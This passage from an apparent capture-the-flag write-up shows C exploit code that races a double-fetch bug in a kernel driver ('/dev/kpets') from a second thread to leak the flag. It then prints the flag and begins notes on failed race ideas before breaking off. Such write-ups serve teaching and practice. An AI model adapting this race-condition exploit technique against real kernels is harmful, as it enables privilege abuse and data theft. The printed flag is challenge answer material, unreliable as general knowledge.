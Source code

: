 ```c
  pthread_t pth1;
  kpets kpet;

  char buf[256];
  memset(buf, 0, sizeof(buf));

  fd = open("/dev/kpets", O_RDWR);
  pet = &kpet;
  memset(pet, 0, sizeof(kpets));

  pet->type = KDOG;
  pet->name_len = 0;
  pet->desc_len = 0;
  pet->desc[0x40] = KFLAG;

  // Run a separate thread to race
  pthread_create(&pth1, NULL, evil_thread, NULL);

  write(fd, pet, 0x6C);

  for (;;) {
    write(fd, pet, 0x6C);
    read(fd, buf, sizeof(buf));
    // If there's a non-null bytes in our buffer from
    // our read, it means we succeed to get the flag
    if (buf[0]) {
      write(1, buf, sizeof(buf));we
      break;
    }
  }

  return 0;
}
```

Runinng this on server, we immediately get the flag,

    fb{lets_try_that_again__double_the_fetch_for_double_the_fun}

## failed attack ideas

slow branch condition

```c
for(;;) pet->name_len = 0x64 + (rand() & 1);
```

notice that I’m using XOR on name_len to create where it changes between 0 and 0x65, but here I thought just change the value using branch condition would succeed, but that’s not gonna happen. I’ve tried to change the `rand()` to a static random buffer read from ‘/dev/urandom’ and that failed too. At this point, I thought maybe there’s something todo with the qemu start script where it has `thread=1` option,
